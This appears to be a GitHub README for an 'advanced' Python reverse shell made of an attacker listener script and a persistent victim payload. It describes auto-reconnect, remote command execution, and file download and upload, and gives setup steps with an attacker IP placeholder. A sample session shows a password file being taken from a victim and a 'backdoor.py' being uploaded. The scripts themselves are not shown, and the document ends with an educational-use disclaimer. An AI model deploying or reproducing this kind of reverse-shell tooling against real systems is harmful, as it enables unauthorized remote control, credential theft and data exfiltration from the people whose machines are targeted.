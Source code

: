 
# 🚀 Advanced Python Reverse Shell

This **advanced version** of the Python reverse shell is a powerful upgrade over the basic version, designed with reliability, extended capabilities, and operational stealth in mind. It maintains the simplicity of Python while introducing features critical for realistic penetration testing and red teaming exercises.

Unlike the basic version, which provides core command execution and a linear connection, this advanced version ensures persistent communication, intelligent command handling, and secure file transfers — making it a practical tool for ethical hackers.

---

## 🆚 Basic vs Advanced: What's New?

| Feature                      | Basic Version                    | Advanced Version                                                      |
| ---------------------------- | ------------------------------- | ------------------------------------------------------------------- |
| Persistent Reconnect          | ❌ Single connection attempt     | ✅ Reconnects every 5 seconds if listener is offline                |
| File Download                | ❌ Not supported                 | ✅ Supported with pattern-based listing and exact match download    |
| File Upload                  | ❌ Not supported                 | ✅ Send files from hacker to victim with integrity checks           |
| Directory Navigation (`cd`)   | ✅ Supported                    | ✅ Improved, supports path echoing and default display              |
| Command Output Handling       | ⚠️ Plaintext with limited fallback | ✅ Cross-platform decoding with `cp437` (Windows) and `utf-8` fallback |
| Empty Command Output Handling | ❌ No feedback                  | ✅ "No output" feedback when silent commands are run                |
| Graceful Exit (`stop`)        | ✅ Supported                   | ✅ Improved clean disconnection and shutdown                        |
| Socket Reuse (SO_REUSEADDR)  | ❌ Not handled                 | ✅ Enables quick listener restarts without port binding errors      |

---

## 📁 Directory Contents

```

Advanced-Version/
├── README.md                # You are here
├── advanced\_hacker.py       # Attacker script (listener and controller)
└── advanced\_victim.py       # Victim payload (persistent reverse shell)

````

---

## 💡 Core Features

* **🔁 Reconnection Loop**: Victim automatically retries connecting to hacker every 5 seconds if disconnected.
* **💻 Command Execution**: Cross-platform shell support (PowerShell, cmd, bash). Uses `subprocess.run` with output decoding.
* **📂 `cd` Support**: Allows directory changes with confirmation, or just shows current directory if used alone.
* **📥 File Download**:
  * Request exact file or pattern (e.g., `report` lists `report.txt`, `report.pdf`, etc.).
  * Select from matches for precise download.
* **📤 File Upload**:
  * Send files from hacker to victim securely.
  * Hacker verifies file exists and is non-empty before sending.
* **🛑 Graceful Termination**: The `stop` command cleanly shuts down both scripts.
* **📡 Port Reuse**: Hacker script uses `SO_REUSEADDR` to allow instant port reuse after closure.
* **⚙️ Robust File Protocol**:
  * All file transfers are in binary.
  * Transfers begin with an 8-byte size header.
  * Size `0` signals "not found", "empty", or "canceled" conditions.

---

## 🚀 Usage Guide

### 🔧 1. Configure IP and Port

Edit both scripts and set:

```python
hacker_ip = "YOUR_ATTACKER_IP"
hacker_port = 10000
````

Ensure both use the same values. On attacker machine, use `ip a` (Linux) or `ipconfig` (Windows) to find your IP.

---

### 🧠 2. Start Listener (Hacker)

```bash
python3 advanced_hacker.py
```

Wait for incoming connections.

---

### 👾 3. Deploy Victim Script

On the target (victim) machine:

```bash
python3 advanced_victim.py
```

It will continuously retry until the hacker connects.

---

## 💬 Commands You Can Use

| Command                     | Description                                  |
| --------------------------- | -------------------------------------------- |
| `cd`                        | Show current directory                       |
| `cd <path>`                 | Change directory                             |
| `download <file or prefix>` | Download file (or match pattern) from victim |
| `upload <filename>`         | Upload file from hacker to victim            |
| `stop`                      | Cleanly terminate the session                |
| *any other command*         | Executed as shell command on victim          |

---

## 📌 Sample Session

**Attacker:**

```bash
python3 advanced_hacker.py
Listening for incoming connections...
[+] Connected with ('192.168.0.105', 50832)
> whoami
victim-pc\user

> cd Desktop
Changed directory to Desktop

> download pass
All files with (pass) name:
  [+] pass.txt
  [+] pass_list.docx
Type exact file name:
> download pass_list.docx
Yes, the file exists!
Receiving file (38290 bytes)...
File downloaded successfully!

> upload backdoor.py
File uploaded successfully!

> stop
[*] Session terminated. Exiting.
```

**Victim Output (optional, not shown to attacker):**

```
[*] Connected to hacker.
whoami is executed successfully!
cd Desktop is executed successfully!
download pass is executed successfully!
download pass_list.docx is executed successfully!
upload backdoor.py is executed successfully!
stop is executed successfully!
```

---

## 🧪 Advanced Internals

### 🔄 Persistent Reconnect

Victim attempts reconnection every 5 seconds. This is ideal when listener crashes or is temporarily offline.

### 📜 Command Dispatch

Victim classifies and handles:

* `cd`
* `download`
* `upload`
* `stop`
* Any other command → routed to shell via `subprocess.run()`

### 📁 File Transfer Protocol

* 8-byte length header sent before file data.
* Chunked send/receive.
* Zero-length used for signaling "not found" or "empty".

### 🧬 Encoding Fallback

* Windows: `cp437`
* Linux/macOS: `utf-8`
* Always fallback to `errors="replace"` to avoid crashes from malformed characters.

---

## ⚠️ Legal Disclaimer

This tool is intended **solely for educational use** and authorized ethical hacking engagements. Unauthorized access or usage of this tool on systems you do not own or have explicit permission to test is illegal. The author assumes no responsibility for any misuse or consequences thereof.

---
